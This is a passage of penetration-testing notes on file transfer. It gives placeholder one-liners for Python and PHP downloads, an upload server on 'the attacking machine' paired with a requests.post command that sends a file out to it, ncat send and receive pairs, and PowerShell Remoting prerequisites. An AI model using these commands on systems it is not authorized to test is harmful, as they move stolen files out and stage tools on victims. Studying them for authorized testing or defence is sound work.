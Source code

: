 ##### python2.7

	python2.7 -c 'import urllib;urrlib.urlretrieve("http://[server-ip]/[file]","[output-file]")'
<br>

#### Uploading

##### listen on the attacking machine:

	python3 -m uploadserver 80

##### upload file to server:

	python3 -c 'import requests;r = requests.post("http://[server-ip]/upload",files={"files":open("[filepath]","rb")})'
<br>

### PHP

php -r '$file = file_get_contents("http://[server-ip]/[file]");file_put_contents("[output-filename]",\$file)'
<br>

## Miscellaneous File Transfer Methods

### File Transfer with Ncat

ncat is the new and improved version of netcat (nc command)

listening/sending machine will vary based on factors such as filters on outbound connections etc

#### on listening:

	ncat -l -p [port] [--recv-only]> [output_file]

#### on sending:

	ncat [listening-address] [port] [--send-only] < [input-file]

#### sending file as input to ncat:

	ncat -l -p [port] [--recv-only] < [input-file]
[the connecting machine will receive the content as soon as connection is made]

<br>

### PowerShell Session File Transfer

in case HTTP, HTTPS and SMB are unavailable **PowerShell Remoting** can be used to perform file transfer operations

PowerShell Remoting allows for execution of scripts/commands on a remote computer using ***sessions***, ports TCP/5985 (HTTP) and TCP/5986 (HTTPS) are used

to create a ***session*** on a remote host administrative access, membership on the Remote Management Users or explicit permissions for PowerShell Remoting mus be set
